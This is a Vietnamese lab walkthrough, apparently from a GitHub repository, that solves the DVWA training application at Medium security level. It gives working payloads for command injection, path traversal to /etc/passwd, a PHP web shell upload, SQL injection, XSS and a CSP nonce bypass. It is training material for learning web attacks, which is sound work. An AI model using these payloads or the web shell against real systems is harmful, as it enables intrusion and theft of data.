 # DVWA - Security Level: Medium  

## 1. Brute Force
Su dung **BurpSuite** bat goi tin khi thuc hien chuc nang **Login**:  
  
![Brute Force_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Brute%20Force_1.png)  
  
Su dung chuc nang **Intruder**, de tan cong brute force tim kiem mat khau cua tai khoan **admin**  
**Result:**  
O muc do **Medium**, moi lan dang nhap sai se phai doi 2s, viec nay khong chong lai duoc tan cong brute froce nhung co the lam tang thoi gian thuc hien.  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection
**Payload**  
```
|| whoami
```
**Result:**  
Chuc nang **Ping a device** da thuc hien loc, loai bo cac ky tu **";" va "&&"**. Nhung bo sot doi voi ky tu **"||"**.  
  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Command%20Injection_1.png)
  
## 3. CSRF
**Payload**  
```
<img src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change">/img>
```
**Result:**  
Su dung lo hong XSS (Reflected):
  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSRF_1.png)
      
## 4. File Inclusion
**Payload**  
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```
**Result:**  
He thong da thuc hien kiem soat input bang cach loai bo chuoi ky tu **"../"** trong du lieu input, nhung chua loai bo hoan toan:  
  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Inclusion_1.png)  
  
## 5. File Upload
**Payload**  
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**Result:**  
He thong da chan, chi cho phep upload file JPEG hoac PNG images:  
  
![File Upload_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_1.png)  
  
Su dung Burp Suite bat goi tin khi thuc hien upload file shell.png:  
  
![File Upload_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_2.png)  
  
Thay doi ten va noi dung file shell.png:  
  
![File Upload_3](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_3.png)  
  
Upload thanh cong:  
  
![File Upload_4](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_4.png)  
  
## 6. Insecure CAPTCHA
**Payload**:  
  
![Insecure CAPTCHA_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Insecure%20CAPTCHA_1.png)  
  
**Result:**  
Tuong tu nhu voi muc do Low, chi can gui request **step 2** voi **passed_captcha=true**.  
## 7. SQL Injection
**Payload**  
```
1 UNION SELECT user, password FROM users-- -
```
**Result:**  
Su dung **Burp Suite** chan goi tin khi chon **Submit**:  
  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_1.png)  
  
Thay doi gia tri **ID**:  
  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_2.png)  
  
## 8. SQL Injection (Blind)
**Payload**  
```
1 AND SLEEP(1)-- -
```
**Result:**  
  
![SQL Injection (Blind)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection%20(Blind)_1.png)  
  
## 9. Weak Session IDs  
**Result:**  
Khi **Generate**, gia tri **dvwaSession** duoc tao ra moi lan khac nhau:  
  
![Weak Session IDs_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_1.png)  
  
Gia tri **dvwaSession** tuong ung voi gia tri **time stamp** khi duoc tao:  
  
![Weak Session IDs_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_2.png)  
  
## 10. XSS (DOM)
**Payload**  
```
>/option></select><img src='x' onerror='alert(1)'>
```
**Result:**  
Tag **<script** bi loai bo, su dung tag **img** kem theo dong cac tag **option, select**:   
  
![XSS (DOM)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(DOM)_1.png)  
  
## 11. XSS (Reflected)
**Payload**  
```
<scripT> alert(1) </Script>
```
**Result:**  
  
![XSS (Reflected)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Reflected)_1.png)  
  
## 12. XSS (Stored)
**Payload**  
```
<img src='x' onerror='alert(1)'>
```
**Result:**  
Thay doi thong so **maxlength** cua o input **name**:  
  
![XSS (Stored)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Stored)_1.png)  
  
Chen **payload** vao o input **name**:  
![XSS (Stored)\_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XXS%20(Stored)_2.png)  
  
## 13. CSP Bypass
**Payload**  
Co the chay script tu cac nguon sau:  
```
Content-Security-Policy
	script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```
**Result:**  
Upload file **csp.js** bang chuc nang **File Upload**:  
**csp.js**
```  
alert('CSP')
```  
He thong van cho phep chay script tren server voi gia tri **nonce** trung voi gia tri **nonce** trong **Content-Security-Policy**:  
```  
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" src="../../hackable/uploads/csp.js"></script>  
```  
![CSP Bypass_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSP%20Bypass_1.png)  
  
## 14. JavaScript
Tuong tu nhu cap do Low, **token** duoc tao bang script sau:  
```  
function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t
}
setTimeout(function() {
    do_elsesomething("XX")
}, 300);

function do_elsesomething(e) {
    document.getElementById("token").value = do_something(e + document.getElementById("phrase").value + "XX")
}
```  
**Payload**  
```
token=XXsseccusXX&phrase=success&send=Submit
```
**Result:**  
  
![JavaScript_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/JavaScript_1.png) 
  
  
